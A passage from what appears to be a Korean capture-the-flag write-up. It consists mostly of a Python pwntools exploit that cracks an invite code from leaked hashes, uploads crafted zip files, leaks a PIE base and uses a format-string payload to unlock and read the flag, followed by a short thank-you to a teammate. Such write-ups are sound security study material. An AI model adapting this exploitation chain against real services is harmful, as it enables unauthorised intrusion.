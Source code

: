 ```python
ex = bytearray(open('./ex.zip', 'rb').read())
invite_code = ""

for i in trange(20):
    num = start_num - (515 * i)
    a = p32(num & 0xffffffff)
    tb[26:30] = a
    uploadfile(15, tb.hex().encode())
    h = listfiles(15, i + 1)
    invite_code += crackhash(h)

invite_code = invite_code[-20:]
print(invite_code)

#invite_code = b"yelling-pixel-corals"
#invite_code = b'terrible-red-busses'

createuser(b'csh', b'csh')
uploadfile(0, ex.hex().encode())
viewfile(0, b'csh', 0)
pie_base = int(p.recvuntil(b' ')[:-1], 16) - 0x5040
wantsetadd = pie_base + 0x5040 + 0x10
print(hex(pie_base))

subprocess.run(['rm', 'ex2.txt'])
ex2 = open('./ex2.txt', 'wb')
payload = fmtstr_payload(14, {wantsetadd:1})
ex2.write(payload)
ex2.close()
subprocess.run(['rm', 'ex2.zip'])
subprocess.run(['zip', '-X', '-0', 'ex2.zip', 'ex2.txt'])
ex2 = open('./ex2.zip', 'rb').read()
print(ex2)
uploadfile(0, ex2.hex().encode())
print(hex(wantsetadd))
viewfile(0, b'csh', 1)
viewflag(0, b'csh')
p.interactive()

# zip -X -0 tb.zip tb.txt
```

- 후일담

`Finder(이재영)`가 아주 중요한 아이디어를 불어넣어 줘서 이 문제를 풀었다 해도 과언이 아닐 정도로 저에게 많은 도움을 주었습니다. 이 글을 빌러 고맙다는 말을 전합니다.